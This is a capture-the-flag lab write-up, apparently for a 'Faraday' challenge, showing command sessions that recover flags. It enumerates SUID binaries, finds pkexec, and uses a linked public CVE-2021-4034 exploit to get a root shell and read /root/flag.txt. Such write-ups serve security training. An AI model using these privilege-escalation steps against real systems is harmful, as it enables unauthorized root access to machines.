 
When running the script, we get a significant amount of `output`. Scanning through it, we finally spot what we’ve been hunting for—the `flag`
```bash
    administrator@erlenmeyer:~$ python3 exploit.py
    ....FARADAY{@cc3ss_10gz_c4n_b3_use3fu111}....   
    administrator@erlenmeyer:~$
 ```   

  

  

### Administrator View

#### FARADAY{\_\_1s\_pR1nTf\_Tur1ng\_c0mPl3t3?\_\_}

##### Priv Escalation 
  

Searching for files with privileges `suid`we found a fairly classic one,`pkexec`
```bash
    administrator@erlenmeyer:~$ find / -perm -4000 2>/dev/null | grep -v snap  
    /usr/bin/umount
    /usr/bin/mount
    /usr/bin/fusermount
    /usr/bin/passwd
    /usr/bin/gpasswd
    /usr/bin/su
    /usr/bin/at
    /usr/bin/sudo
    /usr/bin/pkexec
    /usr/bin/chsh
    /usr/bin/chfn
    /usr/bin/newgrp
    /usr/lib/policykit-1/polkit-agent-helper-1
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/openssh/ssh-keysign
    administrator@erlenmeyer:~$ ls -l /usr/bin/pkexec
    -rwsr-xr-x 1 root root 31032 May 26  2021 /usr/bin/pkexec
    administrator@erlenmeyer:~$
 ```   

  

[We can use a CVE-2021-4034](https://github.com/joeammond/CVE-2021-4034) exploit to become `root`and read the flag
```bash
    administrator@erlenmeyer:/tmp$ python3 exploit.py  
    [+] Creating shared library for exploit code.
    [+] Calling execve()
    # whoami
    root
    # hostname -I
    10.13.37.14 172.17.0.1 172.22.0.1
    # cat /root/flag.txt
    FARADAY{__1s_pR1nTf_Tur1ng_c0mPl3t3?__}
    #
```    
